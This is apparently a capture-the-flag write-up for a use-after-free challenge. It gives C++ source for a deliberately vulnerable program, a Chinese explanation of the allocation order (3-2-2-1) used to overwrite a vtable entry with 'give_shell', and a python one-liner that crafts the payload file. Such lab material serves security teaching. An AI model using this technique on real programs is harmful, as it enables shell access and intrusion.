 ```c
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

思路: 执行步骤，3-2-2-1，第二次调用2的时候，将`introduce`的地址覆盖为`give_shell`的地址。

操作:

```
python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" > /tmp/uaf
./uaf 8 /tmp/uaf
```
